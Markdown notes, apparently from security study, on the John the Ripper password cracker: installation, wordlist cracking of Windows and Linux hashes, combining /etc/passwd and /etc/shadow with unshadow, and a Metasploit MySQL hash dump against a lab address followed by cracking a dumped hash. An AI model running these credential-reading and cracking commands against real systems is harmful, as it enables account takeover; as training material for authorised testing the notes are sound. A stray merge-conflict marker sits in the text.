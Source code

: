 => Hash Cracker, has a lot of different distribution. Most popular distribution is "Jumbo John".

##Install

Per Repository:

```
sudo apt install john
```

Building from Source:

https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL

1.   Use `git clone https://github.com/openwall/john -b bleeding-jumbo john` to clone the jumbo john repository to your current working
2.   Then `cd john/src/` to change your current directory to where the source code is. 
3.  Once you're in this directory, use `./configure` to check the required dependencies and options that have been configured.
4.  If you're happy with this output, and have installed any required dependencies that are needed, use `make -s clean && make -sj4` to build a binary of john. This binary will be in the above run directory, which you can change to with `cd ../run`
5.  You can test this binary using ./john --test



# Basic Syntax

`john [options] [path to file]`

John has built-in features to detect what type of hash it's being given. (not always the best option)
To do this use:

`john --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt`

To look for the password afterwards:

`john --show hash_to_crack.txt`

see #wordlists, #hash for more...

If the automated hash detection doesnt work you can use tools to identify the correct hash: [identify the type of the hash](hashing.md#hash%20identification)
and then use the `--format` option:

`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt`

 If the hash is a standard type you have to use `raw-`, to check if your hash is a standard type use: `john --list=formats | grep -iF "md5"`

## Windows Passwords

[Windows Authentication](windows.md#authentication)

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

## Linux Passwords

[Linux - Password Storage](linux.md#password%20storage)

John can be very particular about the formats it needs data in to be able to work with it, for this reason- in order to crack `/etc/shadow` passwords, you must combine it with the `/etc/passwd`
file in order for John to understand the data it's being given. To do this, we use a tool built into the John suite of tools called unshadow. The basic syntax of unshadow is as follows:

`unshadow local_passwd local_shadow > unshadowed.txt`

After that start the crack:

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt`

When using unshadow, you can either use the entire /etc/passwd and /etc/shadow file- if you have them available, or you can use the relevant line from each. 

Example:
>>>>>>> 877ecb89fc418bec54c43a1c7980b3e6f25b2acd

```
cat /etc/passwd | grep root > rootpasswd.txt
cat /etc/shadow | grep root > rootshadow.txt
unshadow rootpasswd.txt rootshadow.txt > roothash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt roothash.txt
john --show roothash.txt
```


# Examples

Exploit MySQL with [MetaSploit](metasploit)

```
use auxiliary/scanner/mysql/mysql_hashdump 
options
set RHOSTS 10.10.60.123
set USERNAME root
set PASSWORD password
exploit
```

Output:

```
[+] 10.10.60.123:3306     - Saving HashString as Loot: root:
[+] 10.10.60.123:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.60.123:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.60.123:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.60.123:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.60.123:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.60.123:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

And Bruteforce:

```
echo carl:*EA031893AA21444B170FC2162A56978B8CEECE18 > hash.txt
john hash.txt
```

# FAQ

## No password hashes loaded (see FAQ)

Is coming up after using [unshadow](#Linux%20Passwords): If you view the output file and see **\$y\$** right after the username, then that indicates the passwords are hashed with **yescrypt**.

Then you should use `john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt` instead of `--foramt=sha512crypt`